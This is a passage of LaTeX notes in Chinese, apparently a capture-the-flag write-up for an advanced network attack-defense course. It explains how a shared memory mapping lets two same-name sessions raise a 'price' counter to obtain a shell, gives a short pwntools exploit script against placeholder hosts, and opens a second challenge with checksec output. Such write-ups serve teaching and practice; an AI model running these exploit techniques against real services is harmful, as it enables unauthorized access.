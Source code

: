 \chapter{pwn}
\section{高级网络攻防-babypwn}
高级网络攻防课说做出来这些题才可以选这门课。这一系列题目因为不是公开平台上的，所以就不放出来了。

这道题进去首先要输入一个name,有三个选项:
\begin{itemize}
    \item 1 提高price: 最多提高十次，到100。
    \item 2 显示price：始终是0。
    \item 3 获得flag：price到100也换不到，提示price太低。
\end{itemize}

用ida逆一下，发现price到达200就可以拿到shell，且price是char*，被mmap到了'/tmp/input\_name.acc'：
\begin{lstlisting}
rice = mmap(0LL, 8uLL, 3, 1, fd, 0LL);          // PROT_WRITE | PROT_READ
                                                // MAP_SHARED
\end{lstlisting}
各个参数的含义可以用\href{https://github.com/zTrix/magic}{magic}查看。发现是共享映射的，那么直接开两个进程，输入一样的名字，分别提高10次price就可以拿到flag了。
\begin{lstlisting}
from pwn import *
context.log_level = "debug"
io_0 = remote("TARGET_ADDR", PORT)
io_0.sendafter("name.\n", b"a")
io_1 = remote("TARGET_ADDR", PORT)
io_1.sendafter("name.\n", b"a")
for i in range(11):
    io_0.sendlineafter("getflag\n", "1")
    io_1.sendlineafter("getflag\n", "1")
io_0.close()
io_1.interactive()
\end{lstlisting}

\section{高级网络攻防实验二-pwn1}
\subsection{程序基本信息}
使用checksec查看程序基本信息：
\begin{lstlisting}
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
\end{lstlisting}

